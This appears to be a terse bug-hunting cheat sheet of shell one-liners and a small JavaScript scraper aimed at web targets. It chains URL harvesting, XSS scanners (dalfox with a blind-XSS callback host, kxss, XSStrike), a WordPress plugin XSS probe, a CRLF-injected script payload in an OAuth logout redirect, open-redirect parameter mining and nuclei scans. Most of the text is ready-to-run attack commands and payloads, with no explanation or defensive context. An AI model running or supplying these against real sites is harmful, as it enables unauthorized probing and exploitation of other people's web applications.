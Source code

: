 ## XSS
    echo vulnweb.com | gau | tee domain.txt
    httpx -l domain.txt -mc 200,302 -o domain200.txt 
    cat domain200.txt | gf xss | sed "s/=.*/=/" | sed "s/URL: //" | tee domain4xss.txt 
    cat urls.txt | uro 
    dalfox file domain4xss.txt -b (xss.ht or collaborator) pipe 
    cat indeed.txt | kxss > xss.txt 
    python XSStrike/xsstrike.py --seeds domain4xss.txt --fuzzer --level 3 -rate 2 --blind --file-log-level WARNING --log-file output.log

    cat list.txt | httpx | xargs -I {} python xsstrike.py -u {} --level 3  --blind --file-log-level WARNING --log-file output.log

    cat urls.txt | go run ParamsReflect.go
    cat injected_urls.txt | sort -u | httpx -ms "<h1>akira</h1>" -fe "Location: .*<h1>akira</h1>.*" -t 200

## wordpressXss:
    cat domain.txt | httpx -path "/wp-admin/admin-ajax.php?action=ptp_design4_color_columns&post_id=1&column_names=%3Ch1%3EAkira%3C/h1%3E" -ms "<h1>Akira</h1>" -fe "Location: .*<h1>Akira</h1>.*" -t 200 -mc 200

    
## Open Redirect
    cat URlSubs.txt | ~/go/bin/httpx -path "/oauth/idp/logout?post_logout_redirect_uri=%0d%0a%0d%0a%3Cscript%3Ealert('XSSSS')%3C/script%3E" -ms "XSSSSS" -fe "Location: .*XSSS.*" -t 200 -o xss.txt

    
    echo "https://web.archive.org/cdx/search/cdx?url=*.example.com&fl=original&collapse=urlkey" | httpx -er '(https?://[^&\s]+)[^&\s]*(\?|&)(outurl=|redirectionURL=|refURL=|returnURL=|siteurl=|targetURL=|urlTo=|redirectLocation=|redirectPage=|redirectPath=|redirectUrlTo=|urlRedirect=|redirectTo=|linkTo=|urlOut=|outboundUrl=|navTo=|jumpTo=|clickTo=|linkURL=|directTo=|moveTo=|outgoing_url=|outbound_link=|location_to=|forward=|from_url=|go=|goto=|host=|html=|image_url=|img_url=|load_file=|load_url=|login?to=|login_url=|logout=|navigation=|next=|next_page=|out=|page=|page_url=|path=|port=|redir=|redirect=|redirect_to=|redirect_uri=|redirect_url=|reference=|return=|returnTo=|return_path=|return_to=|return_url=|rt=|rurl=|show=|site=|target=|to=|uri=|url=|val=|validate=|view=|window=|location=|link=|click=|move=|jump=|follow=|nav=|ref=|locationURL=|redirectURL=|redirect_to_url=|pageurl=|navigate=|returnUrl=|redirectlink=|redirection=|referral=|direct=|forwardto=|gotoURL=|outlink=|targ=|linkto=|sendto=|dest=|destURL=|destination=|finalURL=|newUrl=|goToUrl=|navToURL=|referralURL=|returnURI=|uri_redirect=|path_redirect=|url_redirect=|location_redirect=|returnPath=|returnToURL=|outgoingURL=|redirectURI=|redirect_path=|redirect_url_path=|targetPath=|clickTarget=|followURL=|linkOut=|location_href=|jumpURL=|returnLink=|refLink=|sendURL=|url_destination=|redirect_destination=|goto_url=|forward_url=|nav_to=|move_to_url=|url_location=|redirect_location=|target_url=|target_link=|return_url_path=|return_to_path=|outgoing_link=|link_destination=|click_destination=|redirector=|redirection_link=|uri_location=|url_path=|path_to=|path_redirector=|go_url=|forward_link=|location_path=)[^&\s]*' -json | jq '.extracts[]' | sed 's/  "//g'| sed 's/"//g' | sed 's/\[//g' | sed 's/\]//g' | sed 's/,//g' > openredirect.txt


## Nuclie
    
    nuclei -l domains.txt -es info -ept ssl -o data.txt
    # dirsearch 
    dirsearch -l domain200.txt -e '' -i 200-299 -x 300-599

## SubdomainFinderC99:
    const domains = ["test.com", "example.com", "yourdomain.com"];
    const extractedURLs = [];
    
    const regex = /checkStatus\('([^']+)'/g;
    
    const fetchAndExtract = async domain => {
      const url = `https://subdomainfinder.c99.nl/scans/2023-08-04/${domain}`;
    
      try {
        const response = await fetch(url, {
          method: "GET",
          headers: {
            "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
            "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.0.0 Safari/537.36",
            // ... add other headers here if needed
          },
        });

    if (!response.ok) {
      throw new Error(`Request failed with status: ${response.status}`);
    }

    const data = await response.text();
    const matches = data.matchAll(regex);

    for (const match of matches) {
      const url = match[1];
      extractedURLs.push(url);
    }
      } catch (error) {
        console.error(`Error fetching ${url}:`, error);
      }
    };
    
    const fetchAndExtractAllDomains = async () => {
      for (const domain of domains) {
        await fetchAndExtract(domain);
      }
    
      console.log("Extracted URLs:", extractedURLs);
    };
    
    fetchAndExtractAllDomains();

